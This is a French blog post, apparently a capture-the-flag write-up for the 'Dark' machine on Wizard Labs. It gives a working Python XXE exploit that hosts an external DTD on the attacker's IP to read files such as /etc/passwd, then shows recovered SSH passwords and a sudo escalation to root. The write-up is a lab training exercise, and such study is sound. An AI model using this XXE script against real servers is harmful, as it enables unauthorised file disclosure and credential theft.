 ```yaml
---
title: Solution du CTF Dark de Wizard-Labs
tags: [CTF, WizardLabs]
---
```


Vader
-----

*Dark* est une machine Linux proposée sur [Wizard Labs](https://labs.wizard-security.net/) avec une difficulté donnée à 4/10.  

La machine fait tourner un serveur web avec un formulaire de contact en index :  

![Wizard-Labs Dark CTF index page XXE](https://raw.githubusercontent.com/devl00p/blog/master/images/wizard-labs/dark_index.png)

En regardant le code source de la page on voit que les données sont soumises via Ajax au format XML :  

```javascript
function XMLFunction(){
    var xml = '' +
        '<?xml version="1.0" encoding="UTF-8"?>' +
        '<root>' +
        '<name>' + $('#name').val() + '</name>' +
        '<tel>' + $('#tel').val() + '</tel>' +
        '<email>' + $('#email').val() + '</email>' +
        '<password>' + $('#password').val() + '</password>' +
        '</root>';
    var xmlhttp = new XMLHttpRequest();
    xmlhttp.onreadystatechange = function () {
        if(xmlhttp.readyState == 4){
            console.log(xmlhttp.readyState);
            console.log(xmlhttp.responseText);
            document.getElementById('errorMessage').innerHTML = xmlhttp.responseText;

        }
    }
    xmlhttp.open("POST","process.php",true);
    xmlhttp.send(xml);
}
```

Et qui dit XML... dit potentiellement [XXE](https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing) (surtout sur un CTF évidemment).  

Exploiter des failles de ce type nécessite plus de préparatifs que d'autres failles (inclusion, injection de commandes, etc) alors on se remonte les manches et c'est parti !  

&XXE;
-----

Quand on soumet des données quelconques à ce formulaire on obtient un message d'erreur en retour :  

> Sorry, yolo@nawak.tld is already registered!

On va donc placer nos injections XXE dans le champ correspondant à l'adresse email afin d'exfiltrer les données.  

J'ai repris mon exploit écrit pour le [CTF DevOops de HackTheBox](http://devloop.users.sourceforge.net/index.php?article179/solution-du-ctf-devoops-de-hackthebox) et l'ai adapté pour que le format du XML et sa DTD correspondent aux données attendues.  

```python
import sys

import requests
from requests.exceptions import RequestException
from netifaces import ifaddresses

if len(sys.argv) < 2:
    print("Usage: python {} filename".format(sys.argv[0]))
    exit()

my_ip = ifaddresses("tun0")[2][0]["addr"]
filename = sys.argv[1]

xml = """<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root SYSTEM "http://{}/valid.dtd">
<root>
<name></name>
<tel></tel>
<email>&xxe;</email>
<password></password>
</root>""".format(my_ip)

dtd = """<?xml version="1.0" encoding="UTF-8" ?>
<!ELEMENT root (name, tel, email, password)>
<!ENTITY xxe SYSTEM "file://{}" >
<!ELEMENT name (#PCDATA)>
<!ELEMENT tel (#PCDATA)>
<!ELEMENT email (#PCDATA)>
<!ELEMENT password (#PCDATA)>""".format(filename)

with open("valid.dtd", "w") as fd:
    fd.write(dtd)

try:
    response = requests.post(
        "http://10.1.1.30/process.php",
        data=xml,
        headers={"content-type": "application/xml"}
    )

except RequestException as exception:
    print("Error occurred:", exception)
else:
    print(response.text)
```

On utilisera un serveur web quelconque (*python3 -m http.server* fait parfaitement l'affaire) pour héberger le fichier DTD qui est automatiquement modifié par l'exploit.  

On peut par exemple récupérer le fichier */etc/passwd*.  

```plain
$ python3 exploit.py /etc/passwd
Sorry, root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:106:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:107::/var/run/dbus:/bin/false
landscape:x:104:110::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
dark:x:1000:1000:Dark Lord,,,:/home/dark:/bin/bash
dhcpd:x:106:114::/var/run:/bin/false
lord:x:1001:1001:,,,:/home/lord:/bin/bash
 is already registered
```

On peut voir deux utilisateurs sur le système : *dark* et *lord*.  

J'ai tenté de récupérer les clés privées SSH de ces utilisateurs mais soit le fichier n'est pas présent, soit les permissions ne permettent pas d'y accéder... Il est temps de fouiller un peu plus sur ce serveur web.  

```plain
/img (Status: 301)
/js (Status: 301)
/backup (Status: 301)
/process.php (Status: 200)
```

*Gobuster* rapporte un fichier *backup* qui contient juste le path */home/lord/password\_backup.txt*.  

Grace à notre exploit on peut dumper ce fichier qui contient le mot de passe SSH pour *lord* : *sunnysunshine!5*.  

G0t r00t
--------

On trouve dans le home de l'utilisateur le premier flag ainsi qu'une clé dont on ignore le but :  

```plain
lord@dark:~$ cat user.txt
d38f--- snip ---d422

lord@dark:~$ cat key
jdhauioh38qhdu
```

Toutefois en cherchant les fichiers de l'utilisateur *lord* (avec *find / -type f -user lord -not -path '/proc/\*' 2> /dev/null*) on trouve un binaire à un emplacement incongru :  

```plain
-rwx--x--x 1 lord lord 8664 Oct  6 12:16 /var/tmp/locker
```

Donnons lui ce qu'il demande :  

```plain
lord@dark:~$ /var/tmp/locker
Usage: <key>
lord@dark:~$ /var/tmp/locker jdhauioh38qhdu
Checking License: jdhauioh38qhdu
dark password = supereasypassword101if
```

Grace à ce mot de passe on peux devenir *dark* via *su*. Cet utilisateur fait partie du groupe *sudo*, voyons voir ce que l'on peut faire :  

```plain
dark@dark:~$ sudo -l
[sudo] password for dark:
Matching Defaults entries for dark on dark:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User dark may run the following commands on dark:
    (ALL : ALL) ALL
dark@dark:~$ sudo su
root@dark:/home/dark# cat /root/root.txt
57e8--- snip ---632d3
```

Game over
---------

Toujours sympa ces petites failles XXE, pour le reste du très basique.  

Merci à *sahay* pour la box et [@h4d3sw0rm](https://twitter.com/h4d3sw0rm) pour *Wizard Labs*.

*Published November 17 2020 at 13:48*
